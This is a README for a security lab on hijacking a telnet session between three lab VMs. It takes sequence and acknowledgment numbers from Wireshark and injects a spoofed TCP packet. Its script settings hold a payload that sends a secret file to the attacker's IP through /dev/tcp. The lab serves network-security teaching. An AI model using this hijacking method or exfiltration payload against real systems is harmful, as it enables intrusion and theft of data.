


## TCP Session Hijacking Attack

### Requirements 

In this lab, we will hijack a telnet session (between the victim client and the victim server) and inject a malicious command. In particular, the attacker wants to see the content of a secret file (stored on the server). At the end of this lab, if the attack is successful, the content of this secret file will be displayed in the attacker's terminal window.

### Setup

3 Linux VMs. VM1 as the victim (telnet client); VM2 as the telnet server; VM3 as the attacker. The 3 VMs reside in the same network. This README uses the following IP addresses.

| VM Name     | IP Address  |
|-------------|-------------|
| VM1         | 10.0.2.4    |
| VM2         | 10.0.2.5    |
| VM3         | 10.0.2.6    |

### Steps

1. Let the client connect to the server using telnet.


2. The client uses this *echo* command to create a secret file on the server.


3. The client uses the *cat* command to confirm the file now exists and is located at /home/seed/secret:


4. Let the attacker start monitoring network traffic using wireshark.


5. Client produces some telnet packets. (any telnet packets, you can just type a command like *ls*).


6. Attacker stops wireshark capturing, and navigates to the latest packet sent from the client to the server. Now we need to examine this packet carefully, so as to obtain the ip addresses, the ttl attribute, the port numbers, the next sequence number, the acknowledgment number, and the window size.

This image shows the IP header, from which we see the ip addresses, and the ttl attribute.


This image shows the TCP header, from which we see the port numbers, the next sequence number, the acknowledgment number, and the window size - still the same packet.


7. The above packet provides the information which the attacker needs to know in order to perform the tcp session hijack attack. Now, the attacker, mimicking the client, only needs to send one single regular TCP packet to the server. To send a regular TCP packet, a python script named send_tcp.py is provided. When running this script, it will send a TCP packet to a destination. You need to change the script so that the following 9 lines match with your situation.

```console
source_ip = "10.0.2.4"
destination_ip = "10.0.2.5"
source_port = 59830
destination_port = 23
sequence_num = 3366342961
acknowledgment_num = 4096614496
ttl_value = 64
window_size = 501
tcp_payload = "\rcat /home/seed/secret > /dev/tcp/10.0.2.6/9090\r"
```

**Note**: because the attacker is mimicking the client, thus the source ip address needs to be the client's IP address; from the captured latest packet, we can see the next sequence number is *3366342961*, the acknowledgment number is *4096614496*; the source port (in this example) is *59830*, the destination port is 23. the tcp window size (in this example) is 501, the time to live (ttl) value is 64. The tcp data we can use is: "\rcat /home/seed/secret > /dev/tcp/10.0.2.6/9090\r".

**Explanation**: The telnet command we want to inject is: "cat /home/seed/secret > /dev/tcp/attacker_ip/9090", but we want this command to be sandwiched by two newline signs "\r", so that the command will not be concatenated with other random strings.

**Explanation 2**: why the telnet command we want to inject is "cat /home/seed/secret > /dev/tcp/attacker_ip/9090". Because "cat /home/seed/secret" shows the content of the secret file, but this command will only display the content in the victim client's terminal window, not in the attacker's terminal window. This "cat /home/seed/secret > /dev/tcp/attacker_ip/9090" will redirect the output of the cat command into a tcp port 9090 at the attacker's ip address.

8. Once the above 9 lines are modified correctly, we are ready to launch the attack, which is just running the python script. Before running the python script, the attacker needs to open another terminal window so that the attacker can listen on a port at the attacker's IP address - here we choose port 9090, which matches with what is specified in the python script.

8.1. Listening in one terminal window:


8.2. Run python script in another terminal window:
- before and after pressing enter to run the script:


9. Once the attacker pressed enter to execute the above script, if the attack is successful, the victim server's secret file will be displayed in the attacker's terminal window:


This indicates that the attack is successful and concludes the lab.
